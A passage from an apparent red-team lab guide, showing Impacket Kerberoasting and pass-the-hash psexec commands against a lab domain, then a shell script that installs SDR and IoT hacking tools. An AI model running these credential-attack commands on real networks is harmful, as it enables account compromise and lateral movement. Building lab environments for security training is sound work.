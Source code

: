 ```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py redteamlab.local/jsmith:Password123! -dc-ip 192.168.56.10 -request

# Pass-the-Hash attack
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32196b56ffe6f45e294117b91a83bf38 redteamlab.local/adminuser@192.168.56.10
```

### IoT Testing Environment

Create a specialized environment for IoT testing:

#### Raspberry Pi and ESP32 Based Lab

For physical IoT testing:

```bash
# Create configuration for a physical IoT lab
cat > iot-lab-setup.sh << 'EOF'
#!/bin/bash
# IoT Lab Setup Script

# Create directory structure
mkdir -p ~/iot-lab/{firmware,tools,captures,evidence}
cd ~/iot-lab

# Install essential tools
sudo apt-get update
sudo apt-get install -y gqrx-sdr gnuradio hackrf rtl-sdr build-essential python3-pip
pip3 install esptool pyserial

# Set up RFCrack
cd tools
git clone https://github.com/cclabsInc/RFCrack.git
cd RFCrack
pip3 install -r requirements.txt
cd ..

# Set up tools for ESP32 analysis
git clone https://github.com/espressif/esptool.git

# Set up tools for firmware analysis
git clone https://github.com/craigz28/firmwalker.git
chmod +x firmwalker/firmwalker.sh

# Set up tools for Zigbee analysis
git clone https://github.com/riverloopsec/killerbee.git
cd killerbee
pip3 install .
cd ..

echo "[+] IoT lab setup complete!"
EOF

chmod +x iot-lab-setup.sh
```
